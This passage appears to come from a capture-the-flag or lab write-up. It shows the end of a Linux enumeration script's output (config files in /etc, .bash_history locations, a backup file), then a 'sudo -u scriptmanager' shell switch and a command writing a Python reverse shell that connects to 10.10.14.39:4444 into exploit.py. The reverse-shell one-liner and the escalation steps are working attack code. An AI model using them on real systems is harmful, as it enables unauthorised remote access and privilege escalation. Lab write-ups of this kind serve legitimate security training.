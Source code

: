     [-] Can't search *.log files as no keyword was entered
    
    [-] Can't search *.ini files as no keyword was entered
    
    [00;31m[-] All *.conf files in /etc (recursive 1 level):[00m
    -rw-r--r-- 1 root root 703 May  5  2015 /etc/logrotate.conf
    -rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
    -rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
    -rw-r--r-- 1 root root 14867 Apr 11  2016 /etc/ltrace.conf
    -rw-r--r-- 1 root root 7788 Dec  4  2017 /etc/ca-certificates.conf
    -rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
    -rw-r--r-- 1 root root 2084 Sep  5  2015 /etc/sysctl.conf
    -rw-r--r-- 1 root root 338 Nov 17  2014 /etc/updatedb.conf
    -rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
    -rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
    -rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
    -rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
    -rw-r--r-- 1 root root 3028 Feb 15  2017 /etc/adduser.conf
    -rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
    -rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
    -rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
    -rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
    -rw-r--r-- 1 root root 144 Dec  4  2017 /etc/kernel-img.conf
    -rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
    -rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
    -rw-r--r-- 1 root root 280 Jun 19  2014 /etc/fuse.conf
    -rw-r--r-- 1 root root 350 Dec  4  2017 /etc/popularity-contest.conf
    
    
    [00;31m[-] Location and contents (if accessible) of .bash_history file(s):[00m
    /home/scriptmanager/.bash_history
    /home/arrexel/.bash_history
    
    
    [00;31m[-] Location and Permissions (if accessible) of .bak file(s):[00m
    -rw-r--r-- 1 root root 3024 Dec  4  2017 /etc/apt/sources.bak
    
    
    [00;31m[-] Any interesting mail in /var/mail:[00m
    total 8
    drwxrwsr-x  2 root mail 4096 Feb 15  2017 .
    drwxr-xr-x 12 root root 4096 Dec  4  2017 ..
    
    
    [00;33m### SCAN COMPLETE ####################################[00m

    
    sudo -u scriptmanager /bin/bash

    
    
    echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.39\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > exploit.py
